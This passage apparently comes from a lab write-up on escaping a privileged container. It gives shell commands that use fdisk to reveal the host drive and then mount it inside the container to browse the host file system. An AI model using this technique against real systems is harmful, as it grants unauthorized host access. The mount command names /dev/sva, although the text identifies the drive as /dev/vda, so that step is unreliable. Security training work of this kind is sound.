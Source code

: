 Once inside the container, we can check if the container is in priveleged mode by trying to run the `fdisk` command.

`$ sudo fdisk -l`

![](images/prison_escape/fdisk.png)

Here we see that the device /dev/vda (host drive) has shown up. We would not be able to see this if the container wasn't in priveleged mode. So what we will do now is mount the device to a directory in the container, which will allow us to explore the whole host file system!

Make a directory to mount to:

`$ sudo mkdir /mnt/temp`

Mount the device to the directory we just created:

`$ sudo mount /dev/sva /mnt/temp`

Change directory to the mount point:

